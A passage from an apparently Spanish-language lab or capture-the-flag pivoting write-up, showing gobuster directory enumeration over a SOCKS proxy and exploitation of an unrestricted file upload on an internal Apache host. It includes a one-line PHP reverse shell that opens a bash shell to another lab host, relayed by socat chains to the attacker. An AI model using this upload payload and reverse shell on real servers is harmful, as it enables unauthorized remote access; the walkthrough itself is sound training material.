 Veamos si descubirmos alguna ruta o archivo en `30.30.30.3`

~~~ bash
gobuster dir -u http://30.30.30.3 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,xml,txt --proxy socks5://localhost:1080
~~~

![Pasted image 20241016232708](https://github.com/user-attachments/assets/11fd113e-5f76-4408-9b3f-bf89ee58a58d)

Vemos que existe una ruta `uploads`, supongo que ahí estará mi archivo `hola`

![Pasted image 20241016232946](https://github.com/user-attachments/assets/a184e7cf-4528-4fed-9299-771b2116b167)

En este punto podemos intentar subir un archivo con código que se pueda interpretar, en este caso, como es un servidor `Apache`, podríamos subir un archivo `php` y ver si el servidor lo interpreta.


# Explotación 30.30.30.3 (Upload)
---
## File Upload

Vamos a crear un archivo `revshell.php`, en este caso, este archivo envía una `reverse shell` a la máquina `30.30.30.2` al puerto `441` que es la máquina Trust, pero haremos que esa reverse shell llegue hasta nuestra máquina de atacante con la ayuda de `socat`

~~~ php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/30.30.30.2/441 0>&1'")?>
~~~

![Pasted image 20241016233404](https://github.com/user-attachments/assets/aca9c90f-84e4-4c85-bced-9e26edac5c12)

En mi caso voy a copiarlo al escritorio porque en un directorio del usuario `root` 

![Pasted image 20241016233928](https://github.com/user-attachments/assets/ed346212-d0f9-4d82-a96c-9c737d410fb9)

![Pasted image 20241016234022](https://github.com/user-attachments/assets/f6d673c6-1e4b-4359-9112-2216708bd952)

![Pasted image 20241016234107](https://github.com/user-attachments/assets/7511d8f3-6f39-46aa-bec1-e0d57d84b5a8)

Una vez subimos el archivo, podemos abrirlo desde el directorio `uploads`. Pero antes configuramos las conexiones con `socat`

- `30.30.30.2:441` -> `20.20.20.2:442`
- `20.20.20.2:442` -> `10.10.10.1:443`


### Reconfigurar el túnel SOCKS

Podemos limpiar los procesos de `socat` anteriores con el siguiente comando si es que da error al intentar iniciar `socat` en un puerto que usaste antes

~~~ bash
killall socat &
~~~
